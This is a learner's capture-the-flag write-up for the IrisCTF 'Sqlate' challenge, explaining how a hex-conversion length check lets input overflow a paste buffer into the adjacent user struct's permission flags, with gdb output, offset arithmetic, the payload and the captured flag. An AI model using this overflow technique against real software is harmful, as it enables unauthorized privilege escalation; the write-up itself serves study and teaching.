


# Sqlate

Points: 50

> World‘s most secure paste app.

`Author: lambda`

---

We were given a tarbar containing the files used to setup the `nc` server.

The main file is the `main.c`. I was unable to find the buffer overflow despite
scouring the code :(. Everywhere I looked I would see `fgets()` with well defined buffer sizes. 

Because of the name I started looking into similar challenges and that lead me to something
to do with bytecodes. I didn't really understand them, but here's some links
- [irisctf2024](https://spektre.in/posts/irisctf-2024-sequilitis/)
- [tsgctf2024](https://github.com/moratorium08/ctf_writeups/blob/master/2024/tsgctf/README.md)

In the end I couldn't solve it, but I figured I should probably revisit the easy pwn challenges. I will be following
[this](https://kallenosf.com/writeups/irisCTF/) fantastic writeup.

Turns out I was actually pretty close to the vulnerability, however I was stupid, and didn't
properly realise what I was looking at. 



### Understanding the program

What the program is doing is creating something similar to [Pastebin](https://pastebin.com/BnF81jrU). 
It creates a user

```C
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
who has some permissions in the `flags` attribute. And the user can perform some operations based on the permissions
they have. There are 7 operations the user can perform

```C
printf(
    "\n===== SQLate =====\n"
    "1) Create new Paste\n"
    "2) Update a Paste\n"
    "3) Show a Paste\n"
    "4) List all Pastes\n"
    "5) Login / Register\n"
    "6) Exit\n"
    "\n"
    "> "
);
```

And a secret 7th operation 

```C
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```

What `action_sys()` does is print the flag from the server, so our goal is to execute operation 7.
However this is where the issue arises since we, the default user, does not have the root permission flag. 

So our goal is to get root perms, and execute operation 7.

### The vulnerability

The 2nd menu option, "update a paste", lets you convert the contents of a paste to hex. Now this is the
smart part. Converting a string to its hex representation would double the length, since one byte in hex is represented 
by two characters. And the contents of a paste have a max size of 256 characters

```C
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```

Which means the input we pass to the hex function should not be greater than `128` characters. However the
protection against this is not properly implemented as 

```C
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```

we can see the program is allowing us to input `192` characters, which means we can overflow `(192 - 128) * 2` bytes.

Now using this what would we try to modify? We want root perms, so we would try to change the value of our user's flags.

### Exploiting the Binary

Thankfully the binary is not stripped and we are given the symbols table.
Opening up the binary in `gdb` we can see the addresses of `paste` and `current_user`.
 (I first ran the binary and set a breakpoint at `action_update()`)

```sh
gef➤  print &paste
$1 = (struct paste *) 0x55555567cb00 <paste>
gef➤  print &current_user 
$2 = (struct user *) 0x55555567ce20 <current_user>
```

We can see they are `0x320` bytes appart. Now the writeup mentioned something interesting and 
said that they were both in the `.bss` section of the binary. Straight from [Wikipedia](https://en.wikipedia.org/wiki/.bss):

> In computer programming, the block starting symbol is the portion of an object file, executable, or assembly language code that contains statically allocated variables that are declared but have not been assigned a value yet. It is often referred to as the "bss section" or "bss segment". Typically only the length of the bss section, but no data, is stored in the object file.

And this makes sense because both our `paste` and `current_user` are declared uninitialised

```C
struct paste paste;
struct user current_user;
```

Let me create a paste and calculate the length of the payload. 



`0x000000000000001e` is our flag variable because 
- it is located at `<current_user+4>` because before `flags` we also have an `int userId`
- `0x1e` is `0b11110` which corresponds to the defaults perms we are given during anonymous login

```C
void login_anonymous() {
  current_user.userId = -1;
  current_user.flags =
      permission_create | permission_update | permission_view | permission_list;
  strcpy(current_user.username, "anonymous");
}
```

Which means that to overwrite these flags with the required perms we need to fill `256 + 16 + 16 + 4 = 292` bytes of data 
and add another byte with our required flags. 

```py
>>> (1<<8) | (0b11110)
286
>>> hex(286)
'0x11e'
```

We can now start crafting our payload. To fill up the 292 bytes we have 146 random characters. Now we have to 
choose our 147th byte since the string of the hex representation of that will be our flag bytes.

The root perm is defined as `1<<8` which is `00000001 00000000` which means any ascii character with a terminal `1`
should work. 

> (I'm not confident about this, I've tried a few other payloads and they didn't work :()

Anyway, the writeup used '1' as the 147th byte so lets do that.

This is the state of the memory after the payload

```sh
0x55555567ce24 <current_user+4>:	00110100	00110001	00110100	00110001	00110011	00110001	00110000	01000001
```

where 
- `00110100` is the binary for the character `'4'`
- `00110001` is the binary for the character `'1'`

which is because `'A'` in hex is `0x41` which was our random 146 characters. 

The last 2 bytes are from `0x0a` which is due to the newline character `\n` on pressing ENTER. 
And the 2nd last 2 bytes `00110011	00110001` are from `0x31` which was our `'1'`. These are the relevant bytes because the root permission bit is active: 
0011001<u><b>1</b></u>	00110001

After this we can input `7` to get our flag.

```sh
===== Paste 1 =====
Title: meow
Language: meow
Content: 
4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141310A


===== Service =====
1) Create new Paste
2) Update a Paste
3) Show a Paste
4) List all Pastes
5) Login / Register
6) Exit

> 7
irisctf{classic_buffer_issues}
```

> [This writeup](https://imlzh1.github.io/posts/IrisCTF2025-Pwn-Binary-Exploitation-WriteUps/) looks like it does something else entirely though, might be worth exploring. 

---

```sh
irisctf{classic_buffer_issues}
```
